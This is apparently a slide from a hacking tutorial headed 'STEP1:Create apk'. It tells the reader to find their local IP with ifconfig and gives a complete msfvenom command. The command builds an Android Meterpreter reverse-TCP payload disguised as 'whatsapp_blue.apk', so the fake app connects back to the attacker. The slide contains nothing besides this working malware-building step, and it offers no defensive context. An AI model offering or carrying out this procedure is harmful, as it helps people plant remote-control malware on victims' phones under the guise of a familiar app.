

# STEP1:Create apk
Find your local ip. Type “ifconfig”

Use “msfvenom” framework for creating apk file(just one line command)
msfvenom –p “payload_here”  LHOST “your_local_ip” LPORT “any_port_no” R > “apk_name”
Eg: msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.78.152 LPORT=444 R > whatsapp_blue.apk

File is created now check root folder search for “whatsapp_blue”